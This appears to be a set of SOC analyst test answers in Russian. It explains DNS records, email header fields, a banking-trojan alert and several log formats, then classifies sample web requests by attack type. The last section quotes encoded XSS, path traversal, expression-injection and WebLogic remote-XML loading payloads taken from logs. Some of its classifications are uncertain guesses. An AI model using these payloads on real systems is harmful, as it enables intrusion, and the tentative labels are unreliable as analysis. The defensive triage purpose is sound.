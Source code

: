 Серғазы Мәди Дарханұлы COPYRITING  (©) 2023 

1.       Сделать описание каждой строчке результата https://2whois.ru/?t=dns&data=kaspi.kz;


Это результат DNS-запроса для домена "kaspi.kz". Каждая строка результата представляет собой отдельный тип записи, который был получен с DNS-серверов.

kaspi.kz IN A ip = 194.187.245.10 85 сек. - Это запись типа "A", которая определяет IPv4-адрес для домена "kaspi.kz". IP-адрес этого домена - 194.187.245.10, а TTL (time-to-live) для этой записи - 85 секунд.

kaspi.kz IN NS target = ns.bc.kz 179 сек. - Это запись "NS", которая определяет серверы имен для домена "kaspi.kz". Сервером имен для этой записи является "ns.bc.kz", а TTL для этой записи составляет 179 секунд.

kaspi.kz IN NS target = ns.kaspi.kz 179 сек. - Это еще одна запись "NS", которая указывает другой сервер имен для домена "kaspi.kz". Сервером имен для этой записи является "ns.kaspi.kz", а TTL для этой записи составляет 179 секунд.

kaspi.kz IN NS target = ns2.bc.kz 179 сек. - Это еще одна запись "NS", которая указывает еще один сервер имен для домена "kaspi.kz". Сервером имен для этой записи является "ns2.bc.kz", а TTL для этой записи составляет 179 секунд.

kaspi.kz IN NS target = ns2.kaspi.kz 179 сек. - Это еще одна запись "NS", которая указывает еще один сервер имен для домена "kaspi.kz". Сервером имен для этой записи является "ns2.kaspi.kz", а TTL для этой записи составляет 179 секунд.

kaspi.kz IN SOA mname = ns.bc.kz rname = telecomdev.kaspi.kz serial = 2018122633 refresh = 600 retry = 150 expire = 28800 minimum-ttl = 300 217 сек. - Это запись "SOA", которая указывает информацию о начале полномочий для домена "kaspi.kz". Эта запись определяет основной сервер имен как "ns.bc.kz", контактный адрес электронной почты как "telecomdev.kaspi.kz", и различные другие параметры, такие как серийный номер, частота обновления и время жизни.

kaspi.kz IN MX pri = 10 target = bmss-01d.kaspi.kz 300 сек. - Это запись "MX", которая определяет почтовые серверы для домена "kaspi.kz". Эта запись указывает, что приоритет равен 10, а почтовый сервер для этой записи - "bmss-01d.kaspi.kz". TTL для этой записи составляет 300 секунд.

kaspi.kz IN MX pri = 10 target = bmss-02d.kaspi.kz 300 сек. - Это еще одна запись "MX", которая указывает другой почтовый сервер для домена "kaspi.kz". Эта запись указывает, что приоритет равен 10, а почтовый сервер для этой записи - "bmss-02d.kaspi.kz". TTL для этой записи составляет 300 секунд.

`kaspi.kz IN TXT txt = google-site-verification=x-9S3SCWGLPV4449a3riJHAdsBWLD44A8YGr



2.       Разобрать Email Header (разобрать и описать только нужные значения и потом суметь объяснить их применимость);
Email  Header
Это заголовок электронной почты, в котором содержится подробная информация о том, как было передано и получено письмо. Вот краткое объяснение различных полей этого заголовка:

Получено: Это стандартный заголовок, который показывает путь, который прошло письмо от места отправления до места назначения. В данном случае он показывает, что письмо было получено на exch3.localhost (IP-адрес 10.1.1.1), затем передано на exch3.localhost (IP-адрес 10.1.1.1) и, наконец, на nodename.kaspi.kz (IP-адрес 10.1.1.2).
Received-SPF: Этот заголовок показывает результат проверки Sender Policy Framework (SPF) для письма. Он показывает, что письмо прошло проверку SPF для домена "visa.com", что означает, что IP-адрес отправляющего сервера (198.241.159.88) уполномочен отправлять электронные письма от имени этого домена.
Authentication-Results: Этот заголовок показывает результаты различных проверок подлинности, проведенных над электронной почтой. Он показывает, что письмо прошло проверки SPF и DKIM (DomainKeys Identified Mail), и что политика DMARC (Domain-based Message Authentication, Reporting, and Conformance) для домена "visa.com" установлена на "карантин", но это конкретное письмо было пропущено.
Остальные заголовки не так важны в данном конкретном случае, но, похоже, они содержат закодированный текст (возможно, сообщение или вложение) и дополнительные заголовки (IPHdr) без четкого назначения.


3.       От системы получено уведомление «JobSFMail-Date.Hash.txt» что оно значит (нужно расписать как ты понимаешь данное уведомление и к чему оно может привести);
JobSFMail

Исходя из предоставленной информации, похоже, что система обнаружила исходящие соединения с IP-адреса 10.1.22.33 на два разных IP-адреса, 34.202.85.54 и 54.164.20.117, на порты 80. Эти соединения были отмечены как вредоносные и связаны с вариантом вредоносной программы Win.Trojan.Banker. Уведомление также содержит уникальный идентификатор "JobSFMail-Date.Hash.txt", который может быть использован для отслеживания или идентификации события для дальнейшего анализа или расследования.

В целом, данное уведомление указывает на возможную компрометацию системы или сети вредоносным ПО Trojan.Banker, и могут потребоваться дальнейшие действия для расследования и снижения потенциальной угрозы. Возможно, необходимо предпринять шаги по изоляции пораженной системы, локализации инфекции и, возможно, провести криминалистический анализ для определения источника и масштабов компрометации. Кроме того, в зависимости от серьезности и характера инцидента может потребоваться оповещение других соответствующих сторон, например, сотрудников службы ИТ-безопасности или правоохранительных органов.

4.           На сайте https://regex101.com/ разобрать «Пример логов 1.txt» и дать описание полезным по вашему мнению полям (Имя пользователя, IP адреса и порты источника и назначения, какое событие, статусы и т.д.);

#1 NGINX:
Полезные поля:

IP-адрес источника: 10.1.2.3
IP-адрес назначения: 109.166.59.44
Временная метка: [17/Nov/2019:03:17:59 +0600]
Метод запроса: GET
Запрашиваемый URL: /shop-ext/suggestions/?i=productDetails&m=true&t=IP&pi=14701657&u=3729495
Код состояния HTTP: 200
Referrer: https://kaspi.kz/shop/p/gerbor-vusher-reg1w2d2s-13-9-l-p-nimfea-al-ba-belyi-gljanets-14701657/?c=551010000
Пользовательский агент: Mozilla/5.0 (Linux; Android 9; Redmi Note 7 Build/PKQ1.180904.001; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/78.0.3904.96 Mobile Safari/537.36
Время отклика: 0.009
Время отклика бэкенда: 0.008
IP-адрес и порт назначения: 10.2.3.4:9001
#2 Почтовый журнал:
Полезные поля:

Временная метка: Dec 04 12:22:00
Источник журнала: Mail_Logs
Тип события: Информация
SMTP ICID: 11444342
Интерфейс: MAIL
IP-адрес источника: 172.1.2.3
IP-адрес назначения: 62.141.46.147
Хост обратного DNS: s2.kipersam.art
Проверено: да
#3 Прокси-сервер:
Полезные поля:

Заголовок Syslog: <30>Dec 4 12:21:59 mwg-prx1 mwg:
Тип события: LEEF:1.0
PRXName: Веб-шлюз
Версия: 7.8.2.11.0
DevTime: 1575440519000
IP-адрес источника: 10.7.8.9
Имя пользователя: petrov_123
Пользовательский агент: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.87 Safari/537.36
Код состояния HTTP: 200
IP-адрес назначения: 149.154.167.99
Категории URL: Мгновенные сообщения
URL: https://venus.web.telegram.org/apiw1
#3 ASA:
Полезные поля:

Заголовок Syslog: <166>Dec 04 2019 12:21:59 ASA1234 :
Причина отказа: Отказ TCP (нет соединения)
IP-адрес источника: 90.143.47.21
Порт источника: 42968
IP-адрес назначения: 194.187.247.147
Порт назначения: 443
Флаги: ACK
Интерфейс: внешний
#4 Журнал почты:
Полезные поля:

Временная метка: Dec 04 12:22:00
Источник журнала: Mail_Logs
Тип события: Информация
ICID: 11444342
Принять/отклонить: ПРИНЯТЬ СПИСОК ПОДОЗРЕВАЕМЫХ SG / ОТКЛОНИТЬ ЧЕРНЫЙ СПИСОК SG
SBRS: sbrs[-3.0:-1.0] / sbrs[-10.0:-3.0]
Оценка SBRS: -1.6 / -5.5
Страна: Mongolia

Этот журнал содержит информацию о событии FILE_MALWARE_EVENT, которое было записано устройством с DeviceType=Estreamer и DeviceAddress=10.10.10.1 в CurrentTime=1575440517963. Журнал включает следующие поля:

timestamp: дата и время, когда произошло событие (04 Dec 2019 12:21:55)
fileEventData.sourceAddress: IP-адрес источника (172.2.3.4)
fileEventData.sourcePort: порт источника (46037)
fileEventData.destinationAddress: IP-адрес назначения (172.2.3.5)
fileEventData.destinationPort: порт назначения (30)
fileEventData.protocol: используемый протокол (6)
fileEventData.fileName: имя файла, вызвавшего событие (online_126657052_3.pdf)
fileEventData.disposition: назначение события (2)
fileEventData.speroDisposition: расположение события в Spero (4)
fileEventData.fileStorageStatus: статус файла в хранилище (2)
fileEventData.fileAnalysisStatus: статус анализа файла (2)
fileEventData.localMalwareAnalysisStatus: статус анализа локального вредоносного ПО (5)
fileEventData.threatScore: оценка угрозы события (0)
fileEventData.action: действие, предпринятое в ответ на событие (3)
fileEventData.clientAppId: идентификатор клиентского приложения (2634)
fileEventData.application.serviceId: идентификатор используемой службы приложения (836)
fileEventData.application.serviceName: имя используемой службы приложения (SMTP)
fileEventData.user.userId: идентификатор пользователя, вызвавшего событие (9999997)
fileEventData.user.userName: имя пользователя, вызвавшего событие (аутентификация не требуется).
Полезные поля в этом журнале, вероятно, будут включать IP-адреса и порты источника и назначения, а также имя файла, расположение и действие, предпринятое в ответ на событие. Другие поля, такие как статус анализа файла и оценка угрозы, также могут быть полезны в определенных контекстах.



5.           В файле «Пример запросов.txt» отделить легитимные запросы от запросов, очевидно содержащих попытки эксплуатации известных уязвимостей. Написать IP адреса атакующих, какого класса уязвимости они пытались использовать.
Пример запросов

85.117.101.213 GET https://data.kaspi.lab/market/api/v2/orders
payload = %3Cscript%3Ealert%28%22testbottles%22%29%3C%2Fscript%3E
potential_attack = XSS(Reflected)

81.91.187.59 POST https://new.kaspi.lab/bottles/dashboards/
payload = actionoutcome%3D%2Fpwn.xhtml%3Fpwned%3D%23%7Bexpressions.getclass%28%29.forname%28%27java.lang.runtime%27%29.getdeclaredmethods%28%29%5B0%5D%7D
pottential_attack = SSTI via uploaded shell

vrode 78.109.191.117 hz krch ne ponyatno chei ip tupo kashu skinuli
payload = view%3D..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
potential_attack = Path traversal

payload = _nfpb%3Dtrue%26_pagelabel%3Dhomepage1%26handle%3Dcom.bea.core.repackaged.springframework.context.support.classpathxmlapplicationcontext%28%22http%3A%2F%2F8.8.8.8%3A37225%22%29 kaspi.lab
potential_attack = vrode os injection ili SSTI + SSRF


Mozilla/5.0+(Linux;+Android+7.1.2;+Redmi+4X+Build/N2G47H;+wv)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Version/4.0+Chrome/110.0.5481.63+Mobile+Safari/537.36 %3Cscript%3Ealert%28%22testbottles%22%29%3C%2Fscript%3E kaspi.lab                 pottential_attack = XSS(Reflected)


2023-02-15T08:32:00	dev.kaspi.lab 443 78.109.191.117 10.2.50.21	80	POST /page/api/login/	-	200	2265	2780	0	2479	16947	HTTP/1.1	Mozilla/5.0+(Linux;+Android+12;+SM-A315F+Build/SP1A.210812.016;+wv)	view%3D..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd	kaspi.lab
pottential_attack = LFI

2023-02-15T08:32:00	forum.kaspi.lab 443	79.133.190.153 10.2.1.12	80	POST	/bottles/dashboardapi2/api/v1/Dashboard/getSampleRequest	-	200	2265	2780	0	2479	16947	HTTP/1.1	Mozilla/5.0+(iPhone;+CPU+iPhone+OS+13,4+like+Mac+OS+X)+AppleWebKit/605.1.15+(KHTML,+like+Gecko)+Mobile/15E148	_nfpb%3Dtrue%26_pagelabel%3Dhomepage1%26handle%3Dcom.bea.core.repackaged.springframework.context.support.classpathxmlapplicationcontext%28%22http%3A%2F%2F8.8.8.8%3A37225%22%29	kaspi.lab
pottential_attack = Reverse Shell (Reverse TCP, connect-back)


